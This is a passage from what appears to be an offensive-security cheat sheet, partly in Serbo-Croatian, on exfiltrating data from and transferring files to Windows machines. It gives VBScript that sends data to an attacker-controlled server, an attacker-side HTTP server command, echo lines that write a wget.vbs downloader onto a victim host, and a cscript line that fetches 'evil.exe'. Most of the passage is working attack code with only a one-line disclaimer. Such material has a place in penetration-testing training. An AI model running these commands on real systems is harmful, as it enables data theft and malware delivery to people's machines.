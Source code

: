 ```vbscript
objEmail.Send

' Make an HTTP request
Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
objHTTP.Open "GET", "http://attacker-controlled-server.com/exfiltrate.php?data=exfiltrated_data", False
objHTTP.Send

' Make a DNS request
Set objDNS = CreateObject("MSXML2.ServerXMLHTTP")
objDNS.Open "GET", "http://attacker-controlled-dns.com", False
objDNS.Send
```

These are just a few examples of how VBScript can be used for exfiltration. It is important to note that using VBScript for malicious purposes is illegal and unethical.

```bash
Attacker> python -m SimpleHTTPServer 80
```

**Žrtva**

```bash
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http =CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

```bash
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

